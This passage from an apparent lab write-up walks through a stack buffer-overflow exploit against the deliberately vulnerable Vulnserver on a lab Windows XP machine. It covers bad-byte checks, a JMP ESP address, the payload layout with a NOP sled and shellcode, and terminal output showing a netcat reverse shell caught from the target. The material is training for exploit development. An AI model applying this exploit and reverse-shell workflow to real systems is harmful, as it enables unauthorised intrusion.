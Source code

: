 Note the lack of protections for these functions again.  
In this instance, the first instruction will work: `0x625011AF`.

### 4. Remove bad bytes
Next up, find bad bytes that cannot be used with the exploit. The null byte is a given for strcpy.  
In this instance, no other bytes need to be removed.

### 5. Sanity check JMP ESP
This is done by sending the payload: [OFFSET][JMP ESP][CC INTERRUPTS]

![UI Screenshot](_HaX0r/00b%20-%20Staging/___Writeups/Binary_Exploitation/BOF_Vulnserver/img/02.png)  

The interrupts get hit as expected.

### 6. Construct exploit
The final exploit is constructed as [OFFSET][JMP ESP][NOPSLED (32 bytes)][SHELLCODE]
```python
exploit = 'A' * 2006 + jmpesp + '\x90' * 32 + shellcode
```

### 7. Exploit
Run the exploit.
```bash
┌──(kali㉿kali)-[~/Documents/bof/vulnserver]
└─$ ./exploit.py  
[+] Opening connection to 192.168.34.148 on port 9999: Done
[*] Welcome to Vulnerable Server! Enter HELP for help.
```
Get a connection back.
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [192.168.34.138] from (UNKNOWN) [192.168.34.148] 1079
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\Administrator\Desktop>hostname
hostname
user-d0da1cb800

C:\Documents and Settings\Administrator\Desktop>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection:

        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.34.148
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.34.2
```